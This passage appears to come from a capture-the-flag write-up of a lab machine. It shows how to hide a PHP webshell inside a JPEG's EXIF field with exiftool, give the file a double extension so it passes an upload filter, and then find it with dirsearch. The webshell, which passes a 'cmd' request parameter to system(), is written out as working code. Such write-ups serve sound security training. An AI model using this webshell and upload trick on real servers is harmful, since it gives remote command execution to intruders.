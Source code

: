 Anyway, to inject php code into an image we can use exiftool and either add a the php code with the  "-Comment" or "DocumentName" and probably other fields.

We grab a simple php webshell already in Kali, add a little html to it and add that to an image with exift as below:

```
root@kali:~/Downloads# exiftool -DocumentName="<h1>LateComerz<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" hk.jpeg 

    1 image files updated

root@kali:~/Downloads# mv hk.jpeg hk.php.jpeg
```

![uploaded](/images/magic/uploaded.png)

In order to find your file after upload, go to back to the home page and checkout the url of the jpg's on there. 

You can also do a recursive dirsearch for jpg extensions such as

```
python3 dirsearch.py -u http://10.10.10.185/ -e jpg -r -R 3

[23:35:52] 301 -  321B  - /images/uploads  ->  http://10.10.10.185/images/uploads/
```
While the parameters mean:
```
-u: url
-e: extensions
-r: recursive
-r: recursion depth
-w: wordlist[optional, used default]
```
